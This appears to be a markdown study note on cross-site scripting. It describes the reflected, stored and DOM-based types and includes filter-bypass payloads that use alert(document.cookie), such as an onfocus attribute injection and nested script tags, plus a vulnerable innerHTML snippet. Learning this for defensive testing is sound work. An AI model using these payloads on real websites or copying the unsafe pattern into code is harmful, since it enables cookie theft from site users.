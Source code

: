 # XSS Attack

### XSS Basic

There are 3 types of XSS:
* Reflected XSS
* Stored XSS
* DOM-based XSS

### Reflected XSS

1. Detect input parameters and determine how they are input (includes HTTP parameters, POST data, hidden form field values, and predefined radio or selection values)

2. Use input data with each input parameters to see if any responses are triggered.

3. Examine the resulting web page HTML and searching for the test input.

### Bypass XSS filters

Input such as `<script>` and `<` or `>` may be filtered by the web application or browser. 

#### Without using a tag

##### Form
```
<input type="text" name="state" value="INPUT_FROM_USER">
```

##### Form after injecting (`" onfocus="alert(document.cookie)`)

```
<input type="text" name="state" value="" onfocus="alert(document.cookie)">
```
#### Different syntax

Different syntax may bypass the filter but treated by the browser as valid syntax.

```
"><script >alert(document.cookie)</script >

```

#### Bypass non-recursive filtering

For some filter, it only perform once on the string and not recursively. It can be bypass with multiple tag


```
<scr<script>ipt>alert(document.cookie)</script>
```

### Stored XSS
Stored XSS occurs when a web application gathers input from a user which might be malicious, and then stores that input in a data store for later use. 

#### Typical Flow of Stored XSS Attack

* Attacker stores malicious code into the vulnerable page
* User authenticates in the application
* User visits vulnerable page
* Malicious code is executed by the user's browser

#### How to Discover?


### DOM-based XSS

The DOM, or Document Object Model, is the structural format used to represent documents in a browser.

For example, the page contains javascript that takes in user-input and change the content of the page.

It has nothing to deal with the server.

```
<script>
function displayGreeting(name){
    if (name != ''){
        document.getElementById('greeting').innerHTML = "Hello " + name + "!"
    }
}
</script>
```





### How to exploit an XSS

Source:

https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

[https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/](https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/)


